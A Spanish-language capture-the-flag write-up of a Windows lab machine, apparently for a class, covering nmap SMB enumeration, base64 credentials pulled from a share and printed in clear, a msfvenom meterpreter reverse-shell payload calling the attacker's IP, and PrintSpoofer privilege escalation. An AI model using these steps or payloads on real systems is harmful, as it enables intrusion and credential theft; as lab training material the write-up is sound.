


# Relevant
Lo primero que haremos es un nmap a la máquina para ver que servicios tiene abierto.

Parece que nos ha encontrado una web en el puerto 80 y asñi interensate en el puerto 445 pueder ser un SMB pero no esoty seguro aunque ese puerto se suele utilizar para SMB. 
Mientras hago un escaneo de ese puerto voy a mirar que hay en la página. 

Vamos a realizar un fuzzeo y mientras miramos el 445. Investigando sobre el puerto 445  (puerto de SMB) con nmap he encontrado que nmap tiene distintas funciones con SMB que podremos ejecutar: 
- Con nmap -p445 --script smb-enum-shares 10.10.108.129 enumeramos las carpetas compartidas del smb.
Podemos ver como nos han aparecido akgunas carpetas compartidas. 

- Con nmap -p445 --script smb-os-discovery 10.10.108.129 podemos ver información del SO.

Podemos ver información como SO, nombre del equipo, grupo de trabajo...

- Con nmap -p445 --script smb-security-mode 10.10.108.129 podemos ver el nivel de seguridad. 

 

 Lo que más podemos destacar de aquí son las carpetas compartidas. Vamos a probar a acceder a ellas con smbclient -L a ver si podemos acceder a alguna. 
 Como vemos nos salen las carpetas que nos aparecieron anteriormente.
 

 Vamos a entrar en ellas a ver si alguna contiene algo. Hemos ido provando en cada carpeta 

 

 Nos habia dejado entrar en IPC pero hacemos ls y no hace nada. Despues hemos entrado en nt4wrksv y al hacer ls nos aparece un fichero password.txt. 

 Al mirar dentro del fichero no nos deje ejecutar cat, por lo que tenemos que llevarnos el fichero a nuestra máquina. 
 

 Nos aparece lo siguiente, por lo que parece que esta encriptada. 
 

 Parece por el formato que es base 64 por lo que vamos a desencriptarla:
 
 
Bob - !P@$$W0rD!123

 
 
 Bill - Juw4nnaM4n420696969!$$$

 Parecen ser 2 usuarios y sus contraseñas, por lo que no puede servir para después. 

 El escaneo me da el mismo error todo el rato. 
 

 Investigando y haciendole consultas a chat, me ha dicho que según los datos que le he proporcionado puede haber servicios que el escaneo de nmap que he realizado no ha cogido. Por ello hemos realizado un escaneo de todos los puertos a ver si encontramos algo nuevo. 

 

 Nos aparecen unos cuantos puertos más pero nos sale unknown. Vamos a comprobar.
 El puerto 49663 parece una réplica de la pagina del puerto 80. Vamos a fuzzear a ver si encontra
 

Este puerto tiene algo que ver con el servidor SMB, debido a que si buscamos a través de los directorios que hemos encontrado anteriormente de SMB encontramos los mismos archivos y rutas :

 ***
 Vamos a intentar acceder al SO, tenemos acceso al SMB por lo que podemos intentar ejecutar de alguna forma un payload para poder acceder al sistema. 
Como vimos en clase con msfvenom podemos general payloads con shell reverse que nos ayuden a acceder a sistemas. Yo voy a utilizar el siguiente: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.21.143.62 LPORT=4321 -e x86/shikata_ga_nai -f exe -o payload.exe`. No definimos x64 debido a que lo coge por defecto. 

Metemos el payload en el SMB y nos ponemos en escucha con netcat. 

He probado payload con exe y con asp pero ninguno de los dos me ha funcionado. Buscando vi que había una extensión que era aspx que esa si que me ha funcionado. 

Para que el payload se ejecute tendremos que ejecutarlo de alguna forma o interactuar con el. Le haremos un curl siguiento la URL 

Y en el netcat se nos abre la cmd. Ya estamos dentro del sistema. 

Lo primero será encontrar la flag del usuario. Vemos que hay un usuario llamado Bob. 

Entramos en la carpeta y solo tiene el escritorio

Vamos a ver que hay dentro y encontramso un archivo user.txt

Comprobaremos el contenido de user.txt y encontramos la flag del usuario. 

*** 
Ahora queremos escalar privilegios, tras hacerle consultas a perplexity buscando posibles exploit con la versión del SO nos dió esta solución. 

Esto lo que nos permite es ver los permisos que tenemos en el sistema y depende de que tengamos habilitado podemos usar algún exploit. 

Una vez le he dado la salida nos aconseja que el privilegio para hacer la escala de privilegios es SeImpersonatePrivilege, ya que este permite a un proceso impersonar a un cliente después de la autenticación, lo que puede ser explotado para obtener privilegios de sistema.

Nos ha brindado 3 exploit que podemos utilizar:
- PrintSpoofer
- JuicyPotato
- RoguePotato

Mirando como se configuran el primero es el más sencillo de ejecutar por lo que es el que vamos a utilizar. 

Descargaremos el exploit de este repositorio

Abrimos un servidor con python 

Y con este comando que nos ha dado perplexity descargaremos el .exe de nuestro servidor. 

Lo ejecutamos con el nombre del fichero y nuestra IP

Y vemos si se ha descargado. Comprobamos que si se ha descargado. (el de 64 es un archivo vacio sin nada)

Nos dicen que para ejecutar el exploit hay que poner el siguiente comando:

Lo ejecutamos y verificamos que se nos ha escalado privilegios

Efectivamente somos el sistema y tenemos permisos de administrador

Vamos a buscar la flag en el directorio del administrador. Dentro del escritorio del root encontramos el archivo root.txt

Vemos su conteniod y encontramos la flag. 

